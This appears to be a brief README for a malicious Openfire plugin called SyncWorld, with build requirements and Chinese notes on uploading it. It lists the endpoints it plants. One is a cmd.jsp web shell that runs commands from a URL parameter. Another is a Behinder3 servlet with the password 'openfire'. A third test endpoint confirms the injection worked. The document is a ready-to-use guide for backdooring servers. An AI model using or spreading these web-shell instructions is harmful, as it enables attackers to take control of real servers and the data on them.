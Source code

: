 # build requirements:
ant1.9
jdk1.8

上传 out下的SyncWolrd后

/plugins/syncworld/Test 返回Injected 注入成功


```
usages:
/plugins/syncworld/cmd.jsp?cmd=whoami
/plugins/syncworld/SyncServlet  behinder3 pass=openfire
/plugins/syncworld/Test 返回Injected

```
a2ad9b4babbba7e9460d5294f4585096


